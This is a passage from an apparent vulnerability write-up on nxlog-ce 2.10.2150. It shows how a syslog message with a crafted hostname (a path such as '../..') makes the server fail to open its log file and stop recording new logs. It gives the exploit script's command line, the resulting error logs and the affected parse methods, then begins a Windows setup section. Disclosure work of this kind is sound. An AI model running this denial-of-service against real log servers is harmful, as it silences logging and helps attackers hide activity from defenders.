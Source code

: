
### 2.1.3 Exploit :

Now if I specify a hostname with a forbidden name :
````bash
./syslog-exploit.py -ip 192.168.1.55 -os 1
````

In Nxlog internal log :
````bash
cat /var/log/nxlog/nxlog.log
````

Return :
````text
2020-11-29 18:11:04 INFO nxlog-ce-2.10.2150 started
2020-11-29 18:15:12 ERROR failed to open /var/log/nxlog/../...log;Permission denied
````

All new logs sent by Syslog clients will no longer be written to the filesystem. 

Because the nxlog service is in an unknown state because it tries to create a directory that cannot be created.

For illustrate, if I try to send a new Syslog payload to the server I have this log in the internal log :
````text
2020-11-29 18:11:04 INFO nxlog-ce-2.10.2150 started
2020-11-29 18:15:12 ERROR failed to open /var/log/nxlog/../...log;Permission denied
2020-11-29 18:18:38 ERROR last message repeated 3 times
````

I have test this exploit with all methods available :

* parse_syslog();
* parse_syslog_bsd();
* parse_syslog_ietf();

And with all methods exploit work !

Sources:

* [https://nxlog.co/documentation/nxlog-user-guide/xm_syslog.html#xm_syslog_proc_parse_syslog](https://nxlog.co/documentation/nxlog-user-guide/xm_syslog.html#xm_syslog_proc_parse_syslog),
* [RFC 3164](https://tools.ietf.org/html/rfc3164)
* [RFC 5424](https://tools.ietf.org/html/rfc5424)

---

## 2.2 Windows :
### 2.1.1 Install :
Install link : 
[https://nxlog.co/system/files/products/files/348/nxlog-ce-2.10.2150.msi](https://nxlog.co/system/files/products/files/348/nxlog-ce-2.10.2150.msi)

Nxlog configuration file :
````text
########################################
# Global directives                    #
########################################
define ROOT     	C:\Program Files (x86)\nxlog
define CERTDIR  	%ROOT%\cert
define CONFDIR  	%ROOT%\conf
define LOGDIR   	%ROOT%\data
define LOGFILE  	%LOGDIR%\nxlog.log
LogFile 			%LOGFILE%

Moduledir          	%ROOT%\modules
CacheDir       		%ROOT%\data
````